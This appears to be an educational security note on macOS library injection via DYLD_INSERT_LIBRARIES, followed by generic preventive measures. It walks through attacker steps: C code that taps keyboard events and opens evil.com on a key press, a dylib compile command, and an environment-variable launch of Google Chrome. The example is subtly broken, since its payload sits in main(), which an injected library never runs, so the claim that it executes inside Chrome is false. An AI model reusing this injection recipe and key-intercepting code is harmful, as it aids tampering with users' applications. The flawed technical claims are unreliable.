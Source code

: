 # macOS Library Injection


# 👉 Overview

---

### 👀 What ?

> macOS Library Injection is a technique used by malicious programs to inject arbitrary code into the memory space of another process. This technique allows the injected code to be executed within the context of the target process, enabling the attacker to bypass system security measures and gain unauthorized access or control over the process.
> 

### 🧐 Why ?

> Understanding macOS Library Injection is crucial because it is a common technique used in cyber-attacks to exploit vulnerabilities in software. It can lead to serious security breaches, allowing attackers to steal sensitive information, manipulate systems, or even gain complete control over a system. Therefore, knowing how this technique works can help in developing appropriate security measures and strategies to prevent such attacks.
> 

### ⛏️ How ?

> To take advantage of macOS Library Injection, follow these steps: 1. Identify a target process to inject code into. This could be a running application or system process. 2. Write the code you want to inject. This code will be executed within the context of the target process. 3. Use a technique such as dynamic linking or runtime patching to inject your code into the target process. 4. Once the code is injected, it can be executed within the context of the target process, allowing you to manipulate the process or gain access to its resources.
> 

### ⏳ When ?

> The technique of library injection has been in use for many years and is not specific to macOS. However, with the increasing popularity of macOS systems, attackers have started to use this technique more frequently on these systems. Therefore, it's crucial for macOS users to understand this technique to protect their systems effectively.
> 

# ⚙️ Technical Explanations

---

## Overview of MacOS Library Injection

MacOS Library Injection is a sophisticated technique used by attackers to infiltrate and manipulate target systems. By leveraging the dynamic linker/loader, attackers can inject arbitrary code into a running process. This injected code becomes part of the process's normal execution, often remaining undetected and allowing the attacker to execute various malicious activities.

## How MacOS Library Injection Works

### 1. Dynamic Linker/Loader (dyld)

The dynamic linker/loader, dyld, is responsible for loading shared libraries needed by a program at runtime. It resolves symbols and links libraries dynamically, providing the necessary functions and resources for the program to execute.

### 2. Environment Variables

The `DYLD_INSERT_LIBRARIES` environment variable can be used to specify additional dynamic libraries that dyld should load before any other libraries. This feature can be exploited by attackers to inject malicious libraries into legitimate processes.

### 3. Privilege Escalation

Attackers often use library injection in combination with privilege escalation techniques to gain unauthorized access to system resources. This can significantly amplify the potential damage, allowing attackers to steal data, install backdoors, or take control of the system.

## Example of MacOS Library Injection

Here is a detailed example demonstrating how MacOS Library Injection can be performed:

### Step 1: Identify a Target Process

The attacker targets a commonly used application, such as Google Chrome.

### Step 2: Write Malicious Code

The attacker writes malicious code to be injected. This code might perform actions like logging keystrokes or opening a malicious website.

```c
#include <stdio.h>
#include <ApplicationServices/ApplicationServices.h>

// Callback function for keyboard events
CGEventRef myCGEventCallback(CGEventTapProxy proxy, CGEventType type, CGEventRef event, void *refcon) {
    if ((type != kCGEventKeyDown) && (type != kCGEventKeyUp))
        return event;

    CGKeyCode keyCode = (CGKeyCode)CGEventGetIntegerValueField(event, kCGKeyboardEventKeycode);

    // Open a malicious website when 'A' is pressed
    if (keyCode == (CGKeyCode)0) {
        system("open <http://www.evil.com>");
    }

    return event;
}

int main(void) {
    CFMachPortRef eventTap;
    CGEventMask eventMask;
    CFRunLoopSourceRef runLoopSource;

    // Create an event tap to intercept key presses
    eventMask = ((1 << kCGEventKeyDown) | (1 << kCGEventKeyUp));
    eventTap = CGEventTapCreate(kCGSessionEventTap, kCGHeadInsertEventTap, 0, eventMask, myCGEventCallback, NULL);

    if (!eventTap) {
        exit(1);
    }

    // Create a run loop source and add it to the current run loop
    runLoopSource = CFMachPortCreateRunLoopSource(kCFAllocatorDefault, eventTap, 0);
    CFRunLoopAddSource(CFRunLoopGetCurrent(), runLoopSource, kCFRunLoopCommonModes);
    CGEventTapEnable(eventTap, true);
    CFRunLoopRun();

    exit(0);
}

```

### Step 3: Compile the Malicious Library

The attacker compiles the C code into a dynamic library (dylib).

```bash
gcc -dynamiclib -o malicious.dylib malicious.c

```

### Step 4: Set the DYLD_INSERT_LIBRARIES Environment Variable

The attacker sets the `DYLD_INSERT_LIBRARIES` environment variable to point to the compiled malicious library.

```bash
export DYLD_INSERT_LIBRARIES=/path/to/malicious.dylib
/Applications/Google\\ Chrome.app/Contents/MacOS/Google\\ Chrome

```

### Step 5: Execution of Malicious Code

When Google Chrome is launched, dyld loads the malicious library first. The injected code runs with the same privileges as the Chrome process, performing actions such as opening a malicious website whenever the 'A' key is pressed.

## Preventive Measures

### 1. Secure Coding Practices

- **Input Validation:** Ensure all user inputs are properly validated to prevent code injection.
- **Use Secure Functions:** Prefer secure functions that limit the potential for exploitation.

### 2. System Configuration

- **Environment Variable Filtering:** Implement filtering to prevent the setting of dangerous environment variables.
- **Restrict Permissions:** Limit the ability of non-privileged users to set environment variables or modify critical system files.

### 3. Monitoring and Auditing

- **Regular Audits:** Conduct regular system audits to detect unauthorized changes to environment variables or system configurations.
- **Activity Monitoring:** Use security tools to monitor system activity and detect suspicious behavior indicative of library injection.

### 4. Regular Updates and Patches

- **Keep Software Updated:** Regularly update the operating system and applications to include security patches.
- **Apply Security Patches:** Promptly apply patches to mitigate known vulnerabilities that attackers might exploit.

### 5. User Awareness

- **Educate Users:** Train users to recognize and avoid potential security threats.
- **Software Verification:** Encourage the use of software from trusted sources and verify the authenticity of applications before installation.

## Conclusion

MacOS Library Injection is a potent technique for attackers to infiltrate systems and execute malicious code. By understanding how this technique works and implementing robust security practices, it is possible to mitigate the risks associated with such attacks. Regular system updates, monitoring, and user education are essential components of a comprehensive security strategy to protect against library injection and other sophisticated cyber threats.

# 🖇️ Références

---